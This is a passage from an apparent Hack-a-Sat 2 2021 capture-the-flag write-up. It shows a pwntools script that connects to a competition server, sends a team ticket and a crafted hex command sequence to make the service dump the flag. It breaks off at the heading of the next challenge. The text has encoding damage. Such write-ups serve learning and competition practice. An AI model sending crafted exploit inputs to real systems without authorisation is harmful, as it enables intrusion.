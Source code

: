 We used pwntools to script the solution. Hereï¿½s the solution script:

    
    
    #!/usr/bin/python3
    
    
     
    
    
    from pwn import *
    
    
     
    
    
    TICKET = b'ticket{kilo440990lima2:GMO6e_EYV3j23LQr2poHR_irrW4KpK-BjZ1rdGhinKKGYtUYRi46VXtZOOd-NGGGtQ}'
    
    
    HOST = b'unfair-cookie.satellitesabove.me'
    
    
    PORT = 5001
    
    
     
    
    
    conn = remote(HOST, PORT)
    
    
    conn.recvuntil(b'Ticket please:')
    
    
    conn.send(TICKET + b'\n')
    
    
     
    
    
    conn.recvuntil(b'>')
    
    
    conn.send(b'0f ff 56 01 071acffc1d0f 01 01 01 08\n')
    
    
     
    
    
    conn.interactive()
    
    
     

After running this script, there is a short delay before the flag is dumped.

`  
`

` `

# Hack-a-Sat2 Qualifier 2021: Fiddlin' John Carson

  
**Category** : Guardians of theï¿½

**Points: **22

**Solves: **232

**Description:**
